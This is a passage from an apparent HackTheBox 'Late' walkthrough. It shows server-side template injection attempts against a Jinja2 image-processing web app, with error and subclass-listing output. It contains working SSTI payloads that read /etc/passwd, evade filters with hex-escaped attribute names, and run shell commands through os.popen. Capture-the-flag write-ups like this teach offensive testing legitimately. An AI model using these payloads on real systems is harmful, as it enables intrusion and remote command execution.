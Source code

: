 ```python
{ { ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() } }
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/test_3.png" width="90%"/>
</p>

And that was the output on the web browser:

```
Error occured while processing the image: 'str object' has no attribute 'class'
```
<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/3_2_error.png" width="70%"/>
</p>

There was many tries and payloads...

```
{ {''.class.mro()[1].subclasses()} }


{{ "".class.mro()[1].subclasses()}}


// Working:

{{() | attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}


{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')

('__import__')('os')|attr('popen')('id')|attr('read')()}}



{{ () | attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__') }}


<p>&lt;built-in method __getitem__ of list object at 0x7f37f14bf108&gt;
</p>


245

 &lt;class &#39;pkgutil.ImpImporter&#39;&gt;,
 &lt;class &#39;pkgutil.ImpLoader&#39;&gt;,
 &lt;class &#39;subprocess.CompletedProcess&#39;&gt;,
 &lt;class &#39;subprocess.Popen&#39;&gt;,
```